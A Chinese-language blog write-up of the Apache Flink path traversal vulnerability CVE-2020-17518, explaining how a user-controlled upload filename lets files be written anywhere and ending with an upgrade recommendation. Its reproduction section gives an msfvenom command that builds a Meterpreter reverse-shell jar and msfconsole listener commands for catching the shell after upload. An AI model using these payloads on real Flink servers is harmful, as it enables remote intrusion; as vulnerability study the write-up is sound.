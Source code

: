 ```yaml
---
title: Apache Flink  cve-2020-17518
layout: post
post-image: /assets/images/apacheflink.jpg
description: Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置
tags:
- 内网渗透
- Apache Flink
- 文件上传
---
```



# Apache Flink  cve-2020-17518

​                                                                                                                       ——Darren    

**1.****漏洞名称**：

**apache Flink 路径遍历漏洞（上传jar包）**

 

**2.****漏洞原理**：

**Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置**

 

**Flink 1.5.1-1.11.2中，允许文件上传到直接上传到服务器中的任意位置中**

**在用户上传一个文件时，filename是用户可以控制的，将filename的路径于服务器路径进行拼接**

 

**3.****受影响版本****：**

**Apache Flink 1.5.1 ~ 1.11.2**

 

**4.****漏洞复现：**

访问地址

![image-20211106102216628](/assets/images/20211106/image-20211106102216628.png)

使用kali生成一个jar文件

msfvenom ‐p java/meterpreter/reverse_tcp LHOST=ip LPORT=端口 ‐f jar > 名字.jar

![image-20211106102240945](/assets/images/20211106/image-20211106102240945.png)

![image-20211106102302878](/assets/images/20211106/image-20211106102302878.png)

接着打开msfconsole 设置攻击端口以及ip

`use exploit/multi/handler (选择攻击模块)`

`set lhost 0.0.0.0 （设置监听ip）0.0.0.0（代表监听所有流向12345的端口的流量）`

`set lport 12345 （设置监听端口）`

`set payload java/meterpreter/reverse_tcp （使用刚刚生成的payload）`

`show options` 

`run`

![image-20211106102403856](/assets/images/20211106/image-20211106102403856.png)

接着上传jar包

![image-20211106102420717](/assets/images/20211106/image-20211106102420717.png)

点击submit后，返回kali中查看反弹回来的shell

![image-20211106102434280](/assets/images/20211106/image-20211106102434280.png)

**5.****修复建议：**

升级flink的版本
